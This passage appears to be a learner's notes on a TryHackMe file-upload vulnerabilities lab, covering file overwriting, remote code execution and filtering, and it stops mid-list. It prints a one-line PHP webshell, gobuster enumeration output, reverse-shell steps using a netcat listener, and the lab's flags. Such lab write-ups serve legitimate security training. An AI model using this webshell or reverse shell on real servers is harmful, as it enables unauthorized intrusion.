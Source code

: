 # Upload Vulnerabilities


## Intro
- If not handled well, file uploads can result in full Remote Code Execution (RCE), webpage injection, and XSS or CSRF vulnerabilities
- If users are allowed to upload arbitrary files they can use the server to host illegal content or leak sensitive information


## General Methodology
- Enumeration is key
- Look at source code, scan with a directory bruteforcer like gobuster, intercept web requests with burpsuite, and check out browser extensions like wappalyser
- If client-side filtering is used for the upload then we can easily see the code and bypass it
- If server-side filtering is being used we need to experiment by uploading files
    - Burpsuite or OWASP Zap are helpful here


## Overwriting Existing Files
- When files are uplaoded, a range of checks should be performed to ensure that the file doesn't overwrite an already existing file
- Common practice is assigning a random name or with the data and time of uplaod added to the start or end of the original filename
- File permissions should be in place to prevent overwriting
### Overwriting the file
1. Go to the website, right click, and view page source
2. `<img src="images/mountains.jpg" alt="">` We see that the name of the image is "mountains.jpg'
3. Now we download an image, name it mountains.jpg, and upload the file
4. The flag we get is THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}


## Remote Code Execution (RCE)
- Allows us to execute code arbitratily on the web server
- Result of uploading a program written in the same language as the back-end of the website (or another language that the server understands and will execute)
    - Traditionally the language is php, but other now other back-end languages have become more common: Python Django and Javascript in Node.js
- 2 ways to achieve RCE: webshells and reverse shells
    - A fully featured reverse shell is ideal goal, but webshell may be the only option available
- General methodology: Upload a shell, activate it by nagivating to the file on the server or force the webapp to run it for us
- Simple php webshell
><?php
>    echo system($_GET["cmd"]);
>?>
### Reverse Shell
1. Use gobuster to find hidden directories `gobuster -w /usr/share/wordlists/dirb/common.txt -u http://shell.uploadvulns.thm`, /resources is probably used to store uploaded files
>root@ip-10-10-154-247:~# gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://shell.uploadvulns.thm
>===============================================================
>Gobuster v3.0.1
>by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
>===============================================================
>[+] Url:            http://shell.uploadvulns.thm
>[+] Threads:        10
>[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
>[+] Status codes:   200,204,301,302,307,401,403
>[+] User Agent:     gobuster/3.0.1
>[+] Timeout:        10s
>===============================================================
>2021/11/27 01:57:10 Starting gobuster
>===============================================================
>/.htaccess (Status: 403)
>/.hta (Status: 403)
>/.htpasswd (Status: 403)
>/assets (Status: 301)
>/favicon.ico (Status: 200)
>/index.php (Status: 200)
>/resources (Status: 301)
>/server-status (Status: 403)
>===============================================================
>2021/11/27 01:57:13 Finished
>===============================================================

2. Edit the ip address and port on the [Monkey Pentest Reverse Shell script](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and upload it to the server
3. Start a netcat listener on the port specified in the script `nc -nvlp 6000`
4. Launch the script with `curl http://shell.uploadvulns.thm/resources/scriptName`
5. Go to the /var/www directory and cat the flag.txt file to find THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}


## Filtering
- Client Side Filtering
    - It's running on the user's browser, and is easy to bypass because user can manipulate code
- Server Side Filtering
    - More difficult to bypass because it's running on server, in most cases is impossible to bypass entirely
### Filtering Types
- Extension validation
